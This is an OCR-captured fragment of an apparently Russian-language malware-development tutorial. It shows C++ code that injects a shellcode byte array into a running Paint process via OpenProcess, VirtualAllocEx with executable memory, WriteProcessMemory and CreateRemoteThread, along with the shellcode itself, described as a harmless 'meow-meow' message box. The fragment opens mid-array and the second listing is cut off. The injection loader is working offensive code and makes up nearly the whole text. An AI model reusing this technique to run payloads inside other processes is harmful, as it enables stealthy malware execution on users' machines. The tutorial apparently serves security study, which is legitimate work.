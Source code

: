 ```cpp
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL,
  sizeof(my_payload), 
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;
}
```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
```